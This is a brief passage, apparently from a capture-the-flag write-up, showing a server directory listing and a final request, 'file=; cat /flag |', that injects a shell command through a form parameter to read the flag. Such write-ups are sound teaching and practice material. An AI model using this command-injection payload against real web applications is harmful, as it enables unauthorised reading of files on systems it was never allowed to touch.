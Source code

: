```
drwxr-xr-x   2 nobody nogroup 4096 Jul 20  2020 srv
drwxr-xr-x   2 nobody nogroup 4096 Apr 15  2020 sys
drwxr-xr-x  14 nobody nogroup 4096 Aug 18  2022 usr
drwxr-xr-x  11 nobody nogroup 4096 Jul 20  2020 var
drwxr-xr-x   1 nobody nogroup 4096 Sep 30  2022 web-apps
```

Alright, here's the flag. One last query!

```
file=; cat /flag |
term=google
->
:)
```
